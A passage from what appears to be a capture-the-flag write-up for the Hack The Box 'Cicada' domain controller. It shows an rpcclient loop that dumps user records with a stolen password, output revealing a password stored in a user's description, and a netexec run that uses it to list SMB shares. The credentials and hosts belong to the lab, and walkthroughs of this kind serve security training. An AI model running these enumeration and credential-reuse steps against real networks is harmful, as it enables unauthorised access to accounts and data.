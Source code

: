 I wrote a small script to automatically check this for all found users:
```bash
for user in $(cat users.txt); do \
rpcclient cicada -U 'michael.wrightson%Cicada$M6Corpb*@Lp#nZp!8' -c "queryuser $user"; \
done
```

> for this small script to work I needed to remove the `CICADA\` prefix from all users.

And it seems that user `david` was stupid enough to put his password in the description of his user object.
```
User Name   :	david.orelious
	Full Name   :	
	Home Drive  :	
	Dir Drive   :	
	Profile Path:	
	Logon Script:	
	Description :	Just in case I forget my password is aRt$Lp#7t*VQ!3
	Workstations:	
	Comment     :	
	Remote Dial :
	Logon Time               :	Fri, 15 Mar 2024 01:32:22 CDT
	Logoff Time              :	Wed, 31 Dec 1969 18:00:00 CST
	Kickoff Time             :	Wed, 13 Sep 30828 21:48:05 CDT
	Password last set Time   :	Thu, 14 Mar 2024 07:17:30 CDT
	Password can change Time :	Fri, 15 Mar 2024 07:17:30 CDT
	Password must change Time:	Wed, 13 Sep 30828 21:48:05 CDT
	unknown_2[0..31]...
	user_rid :	0x454
	group_rid:	0x201
	acb_info :	0x00000210
	fields_present:	0x00ffffff
	logon_divs:	168
	bad_password_count:	0x00000002
	logon_count:	0x00000000
	padding1[0..7]...
	logon_hrs[0..21]...
```

new set of credentials:
`david.orelious` / `aRt$Lp#7t*VQ!3`

## More SMB Enumeration

using david's account I enumerated SMB service again and found that we had access to another share: `DEV`

for this enumeration I used `netexec` and `smbclient` again

```bash
#testing access to shares
netexec smb cicada -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares
SMB         10.129.227.95   445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.227.95   445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.129.227.95   445    CICADA-DC        [*] Enumerated shares
SMB         10.129.227.95   445    CICADA-DC        Share           Permissions     Remark
SMB         10.129.227.95   445    CICADA-DC        -----           -----------     ------
SMB         10.129.227.95   445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.129.227.95   445    CICADA-DC        C$                              Default share
SMB         10.129.227.95   445    CICADA-DC        DEV             READ            
SMB         10.129.227.95   445    CICADA-DC        HR              READ            
SMB         10.129.227.95   445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.129.227.95   445    CICADA-DC        NETLOGON        READ            Logon server share 
```